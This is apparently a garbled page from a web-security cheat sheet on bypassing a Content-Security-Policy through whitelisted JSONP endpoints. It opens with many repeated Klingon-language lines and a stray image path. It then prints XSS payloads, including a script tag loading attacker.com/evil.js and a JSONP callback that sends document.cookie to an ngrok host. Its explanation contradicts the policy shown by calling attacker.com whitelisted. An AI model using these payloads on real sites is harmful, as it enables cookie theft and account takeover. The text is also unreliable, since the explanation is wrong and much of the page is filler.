 ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tlhIngan Hol

ghItlh Hochlogh je 'ej JSONP je

##### tl
```http
Content-Security-Policy: script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';
```
**Scenarios like this where `script-src` is set to `self` and a particular domain which is whitelisted can be bypassed using JSONP. JSONP endpoints allow insecure callback methods which allow an attacker to perform XSS, working payload:**

```
<script src="https://attacker.com/evil.js"></script>
```

In this case, the attacker can host a malicious JavaScript file on their own domain (`attacker.com`) and include it as a script source in the HTML of the target website. Since the attacker's domain is whitelisted in the Content Security Policy (CSP) as a trusted source (`script-src`), the browser will execute the malicious script.

To mitigate this vulnerability, it is recommended to avoid using JSONP endpoints or to implement proper input validation and output encoding to prevent XSS attacks.
```markup
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
"><script src="/api/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
```
